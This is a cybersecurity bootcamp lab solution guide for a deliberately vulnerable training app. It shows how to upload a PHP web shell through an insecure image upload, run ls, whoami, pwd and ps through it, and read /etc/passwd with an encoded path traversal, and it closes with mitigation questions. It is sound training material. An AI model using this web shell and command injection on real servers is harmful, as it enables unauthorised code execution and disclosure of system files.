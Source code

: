## Solution Guide: Local File Inclusion 

In this activity, you were tasked with testing an intended purpose of an application by uploading and viewing a basic image file. You were then tasked with uploading a malicious PHP script and using the script to execute command-line scripts against the web server.

---

1. Test the intended use of the web application.

    **Uploading the Image**

    We will first see how to upload and view an image from the file upload webpage.

      - First select Browse to find the image that you want to upload.

      - By default, this should take you to the desktop of your web lab filesystem.

        - If it takes you to a different location, select Desktop.

      - There will be a file on your desktop called `image.jpg`.

        - Select that image.

      - Back on the file upload page, you should see the `image.jpg` filename that you selected.

        - To upload the file, select Upload.

      - You should then receive a success message that states the following:

        `../../hackable/uploads/image.jpg succesfully uploaded!`
      
    **Viewing the Image**  

    - Note that the previous success message indicates where the file has been uploaded to: 
      
      - `../../hackable/uploads/image.jpg`

    - Access the image by replacing the `#` at the end of the URL, with the complete location indicated earlier.

      - `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/image.jpg `

      - Note that your browser will automatically update the URL to the direct location of the image:

        - `http://192.168.13.25/hackable/uploads/image.jpg`

    - You should see the image of a squirrel. 
    
      - Note that this is how the application is intended to work, by providing the user with an option to upload and view an image!

2. Test an unintended function of the application by loading a malicious PHP script.

    - Note that you just tested how the application is designed to load and view an image.

    - Let's now view a malicious PHP script that we can upload, instead of an image.

    - The malicious PHP script, called `script.php`, has been placed on your desktop.

      - To view this script, find it on your desktop and double-click on it to open:
      
                  <?php
                  $command = $_GET['cmd'];
                  echo system($command);
                  ?>

      - While understanding the exact syntax is not important for now, just note that the contents in the script are designed to run a PHP script to execute a user command.

    - Return to the file upload webpage and follow the same steps again, but this time select and upload the file `script.php`.

      - Note that this script will be uploaded to the same location as the image you previously uploaded.

3. Run command-line commands with your PHP script.

    - Let's now see if we can run command-line commands against the Replicants web server!

      - Change the URL to access the script that you just uploaded.
      
    - Modify the URL again to run the several Linux commands:

      - **Hint:** Review your class slides to see how to modify the URL to run command-line commands.

      - Run the following Linux commands and take note of the results:

        1. `ls`

        2. `whoami`
        
        3. `pwd`
        
        4. `ps`

    - **Note:** While this is a safe place to experiment with commands, DO NOT run commands that might delete or alter files that your system needs, such as `rm`, `mv`, or `rdmir`.

    - **Solution:** The commands to run these scripts are as follows.

      1. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ls`

          - Results might vary but will resemble the following:

              - `image.jpg dvwa_email.png script.php script.php`

      2. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=whoami`

          - Results might resemble the following:

              - `www-data www-data`

      3. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=pwd`

          - Results will resemble the following:

              - `/var/www/html/hackable/uploads /var/www/html/hackable/uploads`   
                
      4. `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=ps`

          - Results might vary but will resemble the following:

              - `PID TTY TIME CMD 305 ? 00:00:00 apache2 306 ? 00:00:00 apache2 307 ? 00:00:00 apache2 308 ? 00:00:00 apache2 309 ? 00:00:00 apache2 314 ? 00:00:00 apache2 315 ? 00:00:00 apache2 316 ? 00:00:00 apache2 317 ? 00:00:00 apache2 324 ? 00:00:00 sh 325 ? 00:00:00 ps 325 ? 00:00:00 ps`

4. **Bonus:** Run commands to explore files with your PHP script.

    - Let's now see if we can run malicious commands to explore files within the Replicants web server.

      - By modifying the URL, access the script that you just uploaded.
      
    - Modify the URL to view the `/etc/passwd` file.

      - **Hint:** You will need to encode your payload, as the URL will not accept all characters, such as spaces.

      - Use the following webpage to help design your payload: [MeyerWeb: URL Encoder/Decoder](https://meyerweb.com/eric/tools/dencoder/).

    - **Solution**

      - The command to run this script is as follows:

        `192.168.13.25/vulnerabilities/upload/../../hackable/uploads/script.php?cmd=cat%20../../../../../etc/passwd`

      - Results will resemble the following:

        `root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false`  

5. Answer the following mitigation strategy questions:

    - Describe to your management how a malicious user can take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

      - There are many acceptable answers, as if a web application is vulnerable to local file injection, a variety of malicious payloads can be exploited. The impact could include the following:
          
          - Display of confidential data such as user accounts, password hashes, service accounts, or network information.
          
          - Deletion or modification of the preceding confidential data, which can lead to system outages.

    - Describe in plain language how you might mitigate the vulnerabilities that you just exploited.

      - There are many acceptable answers, all involving input validation. Options might include server-side validation, to only allow certain file types to be uploaded.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
